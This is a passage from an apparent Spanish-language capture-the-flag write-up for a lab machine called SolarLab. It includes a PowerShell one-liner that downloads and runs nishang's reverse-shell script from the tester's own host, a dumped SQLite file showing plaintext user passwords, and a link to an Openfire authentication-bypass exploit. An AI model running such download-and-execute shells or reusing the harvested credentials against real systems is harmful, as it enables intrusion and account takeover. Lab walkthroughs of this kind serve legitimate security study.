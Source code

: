 Perfecto, ahora con `nishang` voy a mandarme una RevShell

Nos montamos un servidor web con python y compartimos la típica Reverse Shell de nishang, `Invoke-PowerShellTcp.ps1`

Y con `powershell.exe -c iex (iwr http://10.10.14.71/Invoke-PowerShellTcp.ps1)` nos mandamos la revshell.

```powershell
PS C:\Users\blake\Documents\app>whoami
solarlab\blake
```

# Consiguiendo mas credenciales
En la ruta `C:\Users\blake\Documents\app\instance` encontramos un archivo `users.db` que contiene credenciales para otros usuarios

```powershell
PS C:\Users\blake\DOcuments\app\instance> type users.db
SQLite format 3@  .j?
?!!??+?9tableuseruserCREATE TABLE user (
	id INTEGER NOT NULL,
	username VARCHAR(50) NOT NULL,
	password VARCHAR(100) NOT NULL,
	PRIMARY KEY (id),
	UNIQUE (username)
)';indexsqlite_autoindex_user_1user
????!)alexanderkHotP!fireguard'claudias007poiuytrewq 9blakebThisCanB3typedeasily1@
????!alexanderk
               claudias		blakeb
```

Sin embargo, no vemos que existan estos usuarios a nivel de sistema.
```powershell
PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/17/2023  10:03 AM                Administrator
d-----        11/16/2023   9:43 PM                blake
d-----        11/17/2023   2:13 PM                openfire
d-r---        11/17/2023  12:54 PM                Public
```

Pero las contraseñas nos podrían servir mas adelante.
También me llama un poco la atención ese directorio personal de trabajo `openfire` , ya que es un servicio común que quizás nos pueda servir ara escalar privilegios.

De hecho, encontramos vulnerabilidades asociadas a este servicio. Encontramos un Authentication Bypass y un RCE.
[CVE-2023-32315](https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass)
